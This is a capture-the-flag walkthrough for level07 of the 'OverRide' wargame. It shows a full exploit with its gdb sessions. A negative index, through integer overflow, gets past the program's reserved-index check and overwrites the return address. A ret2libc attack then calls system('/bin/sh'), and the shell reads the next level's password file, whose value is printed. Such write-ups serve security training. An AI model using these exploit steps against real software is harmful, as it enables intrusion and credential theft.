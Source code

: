 ## WALKTHROUGH - LEVEL07

---

When we execute the binary, we notice we can store and read values from the stack of the program. There are some protections on the binary: we can find a canary and protected indexs for example.

The program allocates a stack of 100 bytes for its number storage service, as 25 zones of 4 bytes. It reads or store the numbers we specify there by multiplying our index by 4. However, when we test higher numbers than 25, the programm still tries to access to the values located there. So we can suppose we could write data at strategic places of the stack, like the return address.

We know that the buffer starts at esp+0x24. We use gdb to determine the index where the return address will be:

```
(gdb) run
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048732 in main ()
(gdb) info reg $esp $ebp
esp            0xffffd430	0xffffd430
ebp            0xffffd618	0xffffd618
(gdb) p (0xffffd618-0xffffd430-0x24)/4+1
$3 = 114
```

So we can write on the return address with the index 114. However when we try do do so:

```
Input command: store
 Number: 40
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
```

We know that the **index input is multiplied by 4**, and that the **number input is stored at the address designated by the result of the multiplication**. So we can try using a **negative number**, whose **value when multiplied by 4 will be equal to 114*4**.
We use this website to find the number: [RapidTables-Number Conversion](https://www.rapidtables.com/convert/number/decimal-to-binary.html)

```sh
114 is equal to:
         0000 0000 0000 0000 0000 0000 0111 0010
To make it negative we change the MSB:
         1000 0000 0000 0000 0000 0000 0111 0010
Which gives us: 
         -2147483534
```


When we test it, and when we look at the stack, we see **the value located at 0xffffd61c changed**.

```sh
(gdb) c
Continuing.
Input command: store
 Number: 64
 Index: -2147483534
 Completed store command successfully

Breakpoint 1, 0x08048857 in main ()
(gdb) x/wx 0xffffd61c
0xffffd61c:	0x00000040
```
---

Now that we have access to the return address, we can use it to make a **ret2libc attack**, so we **search for** the address of the **system function in the libc** and the **address of a string "/bin/sh"** to put as the system argument:

```sh
(gdb) p system
$17 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) info proc mappings
	Start Addr   End Addr       Size     Offset objfile
[...]
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
[...]
(gdb) find 0xf7e2c000, +9999999, "/bin/sh"
0xf7f897ec
[...]
1 pattern found.
```

So the **system** address is **0xf7e6aed0** or **4159090384** in decimal, and will need to be stored at the index **114**, or **-2147483534**.

We don't need to change the return address of system, so we don't need to change the 115 index content.

However, the **116** index will **hold the argument** for the call to system, so we need to put the **address of the "/bin/sh" string** there, which is 0xf7f897ec or **4160264172**.

---

So when we **execute the program with the right values**:

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: -2147483534
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
